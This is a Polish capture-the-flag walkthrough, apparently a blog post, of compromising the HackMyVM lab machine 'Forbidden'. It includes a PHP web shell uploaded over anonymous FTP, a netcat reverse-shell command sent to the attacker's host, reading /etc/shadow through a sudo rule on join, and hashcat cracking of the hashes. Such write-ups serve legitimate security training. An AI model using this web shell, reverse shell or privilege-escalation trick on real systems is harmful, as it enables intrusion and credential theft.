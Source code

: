 ```yaml
---
title: "Forbidden - sML"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Forbidden
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Forbidden - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Nazwa:|Forbidden|
|Autor:|[sML](https://hackmyvm.eu/profile/?user=sml)|
|Wypuszczony:|2020-10-09|
|Ściągnij:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)|
|Poziom:|Średni|
|System:|Linux|
|Nauczysz się:|Reverse Engineering, sprytu|

# 01. Wstęp
**Forbidden** dosyć długo leżał u mnie na dysku, zapomniałem o niej. Dopiero wróciłem w roku 2024, ale dzięki temu wyszła jedna ciekawostka (zaplanowana lub nie). Maszynka jest dosyć prosta, mimo że ma status middle, jednak ma dużo króliczych nor i chyba dzięki temu jest bardzo ciekawa, mimo swojego wieku. 
{: .text-justify}
# 02. Co to za maszyna?
Po wstępnym wykryciu ip **Netdiscoverem**
{: .text-justify}
```bash
netdiscover -P -r 172.16.1.0 | grep "PCS Systemtechnik GmbH"
```
```bash
 172.16.1.161    08:00:27:3c:42:d7      1      60  PCS Systemtechnik GmbH
```
i skanowaniu **Nmapem**:
{: .text-justify}
```bash
db_nmap -A -p- 172.16.1.161
```
```bash
host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.161  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.161  80    tcp    http  open   nginx 1.14.2
```
widzimy, że mamy otwarte porty: 
{: .text-justify}
- **21/tcp** - FTP
- **80/tcp** - Apache WWW
Wchodząc na strone:
{: .text-justify}
![01](/assets/images/hacking/2024/01/01.png)
dostajemy dużo informacji, między innymi, że Marta jest najlepszym adminem na świecie (zobaczymy). Jest zadowolona, że nikt się jej nie włamie, bo _PHP_ wyłączyła (zobaczymy znowu).
{: .text-justify}
# 03. Co jest w środku?
## WWW
Najpierw przeskanujmy ten system programem **Forexbuster**:
{: .text-justify}
```bash
feroxbuster -x txt,php -u http://172.16.1.161
```
```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.16.1.161
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      169c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        8l       41w      241c http://172.16.1.161/
200      GET        1l        1w       10c http://172.16.1.161/robots.txt
200      GET        1l       12w       75c http://172.16.1.161/note.txt
[####################] - 33s    90000/90000   0s      found:3       errors:0      
[####################] - 33s    90000/90000   2744/s  http://172.16.1.161/          
```
Znalezione zostały pliki: _robots.txt_ i _note.txt_. W _note.txt_ jest taka informacja ```The extra-secured .jpg file contains my password but nobody can obtain it.```. To się przyda później.
{: .text-justify}
## FTP
Mamy dostęp do FTP-a za pomocą konta **anonymous**, do tego się okazuję, że możemy też wgrywać tam pliki. Pliki o rozszerzeniu _.php_ można tam wrzucić, ale niestety się nie uruchomią wchodząc przez stronę. Za to nasza najlepsza adminka na świecie chyba zapomniała, że są inne rozszerzenia typu _.php5_. Wrzućmy tam nasz shell, którego zawartość tak wygląda:
{: .text-justify}
```php
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```
Na **FTP** zaś możemy zrobić coś takiego, po prostu wrzucić ten plik.
{: .text-justify}
```bash
root@kali2023:~/hmv/forbidden# ftp 172.16.1.161
Connected to 172.16.1.161.
220 (vsFTPd 3.0.3)
Name (172.16.1.161:szikers): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php5
229 Entering Extended Passive Mode (|||23644|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Jan 05 20:53 www
226 Directory send OK.
ftp> cd www
250 Directory successfully changed.
ftp> put shell.php5
```
# 04. Reverse Shell
Odpalamy nasz Reverse Shell:
{: .text-justify}
## Nasłuchiwacz
```bash
nc -lvp 12345
```
## Kod na stronie
Wklejamy przez przeglądarkę:
{: .text-justify}
```
172.16.1.161/shell.php5?cmd=php%20-r%20%22system%20%28%27nc%20-c%20%2Fbin%2Fbash%20172.16.1.89%2012345%27%29%3B%22%20
```
# 05. Konta użytkowników
## www
w katalogu ```/var/www/html``` mamy obrazek **TOPSECRETIMAGE.jpg**. Można go rozpakować, wydobyć z niego hasło, itd... jednak na nic się to nie przyda, bo hasłem do konta marta jest **Nazwa obrazka** :smiley:
{: .text-justify}
## marta
```bash
su - marta
```
Będąc na koncie _marta_ wydajemy komendę _sudo -l_. Wynikiem zaś jest:
{: .text-justify}
```bash
marta@forbidden:~$ sudo -l
Matching Defaults entries for marta on forbidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
```
Niestety polecenie _sudo /usr/bin/join_ nie daje nam dostępu do konta **Roota**, jednak umożliwia przeczytanie pliku _/etc/shadow_. W nim zaś są zawarte hasła.
```bash
sudo  /usr/bin/join -a2 /dev/null /etc/shadow
```
## root
Poszliśmy na skróty, Nie wiem jak było w 2020 roku, ale teraz **Hashcat** ze słownika _rockyou.txt_ odszyfrował nam hasło użytkownika _peter_ i dodatkowo _root_ (to była ta ciekawostka). Nie musimy już przechodzić przez konto _peter_.
{: .text-justify}
```powershell
PS C:\temp\hashcat> .\hashcat.exe -O -a0 -m1800 .\hashe\forbidden.txt .\dict\rockyou.txt --show
$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51:lalu******
$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81:bo******
```
{: .text-justify}

